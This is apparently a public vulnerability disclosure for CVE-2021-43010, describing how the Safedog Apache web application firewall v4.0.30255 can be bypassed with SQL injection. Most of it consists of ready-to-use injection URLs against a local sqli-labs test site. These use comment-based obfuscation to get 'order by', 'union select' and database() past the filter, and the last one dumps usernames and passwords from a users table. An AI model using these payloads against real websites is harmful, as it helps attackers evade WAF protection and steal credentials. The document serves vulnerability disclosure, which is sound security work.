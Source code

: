 # CVE-2021-43010

Update：2021.10.25
​

# SQL injection bypass vulnerability exists in website security dog (APACHE) v4.0.30255 of Xiamen Fuyun Information Technology Co., Ltd


# 1. Version information


The latest version of safe dog Apache client official website: [http://free.safedog.cn/](http://free.safedog.cn/)
​

Download address: [http://free.safedog.cn/website_](http://free.safedog.cn/website_) safedog.html
​

Influence product: Apache version v4.0.30255 of website security dog of Xiamen Fuyun Information Technology Co., Ltd
​

![image.png](./images/7e0f6.png)


# 2. bypass injection
Install the program on windows server2012, install phpstudy2018, and deploy sqli labs website
​

![image.png](./images/d260d.png)




Normal link: `​[http://192.168.126.154/sqli/Less-1/?id=1](http://192.168.126.154/sqli/Less-1/?id=1)`
![image.png](./images/04dc4.png)




## 2.1 Bypass keywords：order by


`[http://192.168.126.154/sqli/Less-1/?id=1'](http://192.168.126.154/sqli/Less-1/?id=1') order by 1 --+`   
At this time, it is intercepted by the safedog
​

![image.png](./images/cf77d.png)




use  bypass keywords: `order /*//--/*/ by 121 --+ `
​

`[http://192.168.126.154/sqli/Less-1/?id=1'](http://192.168.126.154/sqli/Less-1/?id=1') order /*//--/*/ by 121 --+`
​

![image.png](./images/823b5.png)
Successfully bypassed keyword order by
## 2.2 Bypass keywords: union select 


The same method: `Union / * / / -- / * / select 1,2,3--+`


![image.png](./images/0b468.png)






## 2.3  Bypass keywords: database()


intercepted：
![image.png](./images/5105e.png)


bypass ：
​

`[http://192.168.126.154/sqli/Less-1/?id=-1'](http://192.168.126.154/sqli/Less-1/?id=-1') union /*//--/*/ /*!--+/*%0aselect/*!1,2,*/database /*//--/*/ () --+`




![image.png](./images/3f381.png)
## 2.4 Get all data
`[http://192.168.126.154/sqli/Less-1/?id=-1'](http://192.168.126.154/sqli/Less-1/?id=-1')  union /*!--+/*%0aselect/*!1,2,*/  group_concat(concat_ws(0x7e,username, password))     /*!from*/    security.users --+`
​

![image.png](./images/a1c84.png)
​

